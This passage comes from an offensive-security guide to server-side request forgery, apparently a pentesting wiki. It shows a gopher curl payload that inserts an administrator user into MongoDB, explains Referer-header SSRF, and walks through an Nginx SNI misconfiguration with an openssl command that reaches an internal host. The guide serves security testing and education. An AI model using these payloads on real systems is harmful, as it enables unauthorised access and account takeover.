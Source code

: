 #### Gopher MongoDB -- Create user with username=admin  with password=admin123 and with permission=administrator

```bash
# Check: https://brycec.me/posts/dicectf_2023_challenges#unfinished
curl 'gopher://0.0.0.0:27017/_%a0%00%00%00%00%00%00%00%00%00%00%00%dd%0
7%00%00%00%00%00%00%00%8b%00%00%00%02insert%00%06%00%00%00users%00%02$db%00%0a
%00%00%00percetron%00%04documents%00V%00%00%00%030%00N%00%00%00%02username%00%
06%00%00%00admin%00%02password%00%09%00%00%00admin123%00%02permission%00%0e%00
%00%00administrator%00%00%00%00'
```

## SSRF via Referrer header & Others

Analytics software on servers often logs the Referrer header to track incoming links, a practice that inadvertently exposes applications to Server-Side Request Forgery (SSRF) vulnerabilities. This is because such software may visit external URLs mentioned in the Referrer header to analyze referral site content. To uncover these vulnerabilities, the Burp Suite plugin "**Collaborator Everywhere**" is advised, leveraging the way analytics tools process the Referer header to identify potential SSRF attack surfaces.

## SSRF via SNI data from certificate

A misconfiguration that could enable the connection to any backend through a simple setup is illustrated with an example Nginx configuration:

```
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}
```

In this configuration, the value from the Server Name Indication (SNI) field is directly utilized as the backend's address. This setup exposes a vulnerability to Server-Side Request Forgery (SSRF), which can be exploited by merely specifying the desired IP address or domain name in the SNI field. An exploitation example to force a connection to an arbitrary backend, such as `internal.host.com`, using the `openssl` command is given below:

```bash
openssl s_client -connect target.com:443 -servername "internal.host.com" -crlf
```

## [Wget file upload](../file-upload/#wget-file-upload-ssrf-trick)

## SSRF with Command Injection
